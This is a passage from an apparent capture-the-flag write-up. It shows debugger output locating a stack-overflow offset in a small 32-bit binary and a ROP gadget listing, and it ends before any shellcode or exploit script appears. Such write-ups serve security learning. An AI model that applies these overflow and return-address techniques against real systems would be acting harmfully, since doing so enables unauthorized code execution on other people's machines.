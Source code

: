 ```sh
 EDI  0
 ESI  0
 EBP  0
 ESP  0xffffce8c ◂— 0x61616167 ('gaaa')
 EIP  0x61616166 ('faaa')
────────────────────────────────────────────────────────────────────[ DISASM / i386 / set emulate on ]────────────────────────────────────────────────────────────────────
Invalid address 0x61616166



────────────────────────────────────────────────────────────────────────────────[ STACK ]─────────────────────────────────────────────────────────────────────────────────
00:0000│ esp 0xffffce8c ◂— 0x61616167 ('gaaa')
01:0004│     0xffffce90 ◂— 0x61616168 ('haaa')
02:0008│     0xffffce94 ◂— 0x61616169 ('iaaa')
03:000c│     0xffffce98 ◂— 0x6161616a ('jaaa')
04:0010│     0xffffce9c ◂— 0x6161616b ('kaaa')
05:0014│     0xffffcea0 ◂— 0x6161616c ('laaa')
06:0018│     0xffffcea4 ◂— 0x6161616d ('maaa')
07:001c│     0xffffcea8 ◂— 0x6161616e ('naaa')
──────────────────────────────────────────────────────────────────────────────[ BACKTRACE ]───────────────────────────────────────────────────────────────────────────────
 ► 0 0x61616166 None
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
pwndbg>
pwndbg> cyclic -l faaa
Finding cyclic pattern of 4 bytes: b'faaa' (hex: 0x66616161)
Found at offset 20
```

And yes! We got the offset!

# Exploit Development

The problem here is that we know we can inject the shellcode, but how can we get it to execute? My idea is to find a way to leak an address from somewhere and then calculate the starting address of our shellcode. So let's see what gadgets we have:

```sh
$ ropper -f start
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%

Gadgets
=======

0x0804809b: adc al, 0xc3; pop esp; xor eax, eax; inc eax; int 0x80;
0x08048099: add esp, 0x14; ret;
0x080480a0: inc eax; int 0x80;
0x0804808f: int 0x80;
0x08048097: int 0x80; add esp, 0x14; ret;
0x08048085: je 0xae; mov ecx, esp; mov dl, 0x14; mov bl, 1; mov al, 4; int 0x80;
0x0804809a: les edx, ptr [ebx + eax*8]; pop esp; xor eax, eax; inc eax; int 0x80;
0x08048095: mov al, 3; int 0x80;
0x08048095: mov al, 3; int 0x80; add esp, 0x14; ret;
0x0804808d: mov al, 4; int 0x80;
0x0804808b: mov bl, 1; mov al, 4; int 0x80;
0x08048089: mov dl, 0x14; mov bl, 1; mov al, 4; int 0x80;
0x08048093: mov dl, 0x3c; mov al, 3; int 0x80;
0x08048093: mov dl, 0x3c; mov al, 3; int 0x80; add esp, 0x14; ret;
```
